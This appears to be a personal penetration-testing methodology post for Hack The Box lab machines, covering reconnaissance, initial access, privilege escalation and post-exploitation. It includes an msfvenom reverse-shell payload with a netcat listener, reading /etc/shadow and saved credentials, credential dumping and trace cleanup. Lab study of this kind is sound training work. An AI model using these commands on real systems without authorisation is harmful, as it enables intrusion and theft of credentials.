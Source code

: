 ```yaml
---
title: "Methodologies"
date: 2025-06-28 14:42:00 +0500
categories: [Methodologies]
tags: [HTB]
---
```


## 1. Reconnaissance (Enumeration)

### Objective:

Identify open services, gather information about the target system, and uncover potential attack vectors.

### Tools & Techniques:

#### Basic Network Scanning

```bash
nmap -sC -sV -oN nmap/initial <target-ip>
```

* `-sC`: Run default scripts
* `-sV`: Version detection
* `-oN`: Output to file

#### Full Port Scan (for deeper service discovery)

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap/allports <target-ip>
```

* `-p-`: All 65535 ports
* `--min-rate`: Speed up the scan

#### Targeted Service Scanning

After identifying services:

* **HTTP**: `nikto`, `gobuster`, `feroxbuster`, `whatweb`, `wpscan`
* **SMB**: `enum4linux`, `smbclient`, `crackmapexec`
* **FTP**: Anonymous login, `nmap --script ftp*`
* **SSH**: Banner grabbing, user bruteforce with `hydra`, check for weak keys
* **DNS**: `dig`, `nslookup`, `dnsrecon`
* **SNMP**: `onesixtyone`, `snmpwalk`

#### Directory/File Enumeration

```bash
gobuster dir -u http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x php,txt,html
```

#### Web Tech Stack & Analysis

* `whatweb`, `wappalyzer`, `curl -I`
* Manually browse with **Burp Suite** or **ZAP Proxy**

#### /etc/hosts

Edit `/etc/hosts` file to create hosts entry and tinker with the web interface.

```bash
sudo vim /etc/hosts
10.10.10.150 <box_name>.htb
```

---

## 2. Foothold (Initial Access)

### Objective:

Exploit a vulnerability or misconfiguration to gain low-level access (usually a user shell).

### Techniques & Tools:

#### Web Exploitation

* **Check CMS**: Use `wpscan`, `joomscan`
* **Upload forms, RCE, LFI, SQLi**: Use `Burp Suite`, `sqlmap`
* **Authenticated functionality**: Use `ffuf`/`wfuzz` to fuzz
* **Exposed Git repos**: Download `.git` and extract

#### Exploits

* Search for public exploits:

  ```bash
  searchsploit <service/version>
  ```

  Or use `exploitdb`, `github`, `CVE` search

* Use `Metasploit` for known vulnerable services (optional if allowed)

#### Reverse Shell

Generate a reverse shell payload:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<your-ip> LPORT=4444 -f elf > shell.elf
python3 -m http.server 80   # to host payload
```

Catch it with:

```bash
nc -lvnp 4444
```

---

## 3. Privilege Escalation (Root)

### Objective:

Elevate privileges from a foothold user to `root` or `NT AUTHORITY\SYSTEM`.

### Tools & Techniques:

#### Manual Enumeration

Run the following script from your foothold:

```bash
linpeas.sh, linenum.sh, lse.sh (for Linux)
winPEASx64.exe, PowerUp.ps1 (for Windows)
```

Or manually check:

* **SUID binaries**: `find / -perm -4000 2>/dev/null`
* **Cron jobs**: `cat /etc/crontab`, `/etc/cron.*`
* **Scheduled tasks (Windows)**: `schtasks /query /fo LIST /v`
* **Misconfigured services**: `systemctl list-units --type=service`
* **Environment variables**: `env`, `PATH` issues

#### Kernel Exploits

Check kernel version:

```bash
uname -a
```

Search for privilege escalation:

```bash
searchsploit linux kernel <version>
```

#### Password Reuse & Creds

* Check `/etc/passwd`, `/etc/shadow`, saved credentials in `.bash_history`, scripts, config files
* Try `sudo -l`

#### Exploiting Sudo Rights

```bash
sudo -l
```

Use [GTFOBins](https://gtfobins.github.io/) or [LOLBAS](https://lolbas-project.github.io/) for binaries you can exploit with sudo privileges.

---

## 4. Post Exploitation

* Dump credentials
* Lateral movement if applicable (less common on HTB standalone)
* Cleanup traces if needed

---

## Tool Summary Table

| Phase             | Tools                                                                               |
| ----------------- | ----------------------------------------------------------------------------------- |
| Recon             | `nmap`, `gobuster`, `feroxbuster`, `whatweb`, `enum4linux`, `smbclient`, `snmpwalk` |
| Foothold          | `searchsploit`, `msfvenom`, `sqlmap`, `Burp`, `wpscan`                              |
| Priv. Escalation  | `linpeas`, `winPEAS`, `pspy`, `sudo -l`, `GTFOBins`                                 |
| Post Exploitation | `hashdump`, `netstat`, `ss`, `history`, `creds`                                     |

## Resources
For active directory/window boxes:
https://raw.githubusercontent.com/Orange-Cyberdefense/ocd-mindmaps/main/img/pentest_ad_dark_2023_02.svg

---
